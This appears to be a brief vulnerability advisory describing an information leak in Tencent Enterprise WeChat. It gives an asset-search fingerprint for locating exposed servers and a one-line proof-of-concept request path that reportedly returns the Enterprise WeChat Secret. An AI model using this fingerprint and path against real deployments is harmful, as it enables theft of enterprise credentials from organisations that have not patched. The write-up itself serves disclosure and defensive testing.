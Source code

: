 # Tencent Enterprise WeChat agentinfo Information leakage vulnerability

## Vulnerability Description

Tencent Enterprise WeChat agentinfo interface has information leakage vulnerabilities, and attackers can obtain Enterprise WeChat Secret through the vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tencent Enterprise WeChat</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">web.body="wework_admin.normal_layout"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691826671192-b1e9846a-3d9d-423e-aa0f-8800074af3c5.png)

Verify POC

```php
/cgi-bin/gateway/agentinfo
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691826986597-d2dc28f9-7e86-4752-8fae-954bf44d5e0b.png)